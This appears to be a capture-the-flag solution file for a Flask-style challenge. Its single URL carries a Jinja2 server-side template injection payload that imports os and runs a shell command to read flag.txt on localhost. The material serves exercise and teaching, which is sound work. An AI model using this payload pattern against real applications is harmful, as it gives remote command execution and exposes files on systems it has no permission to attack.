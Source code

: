 # Solution


Do Server-side template Injection and read flag

```bash
# Example solution, when deployed on localhost. Change to different address if needed
http://localhost:5000/greeting?name={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()}}

```
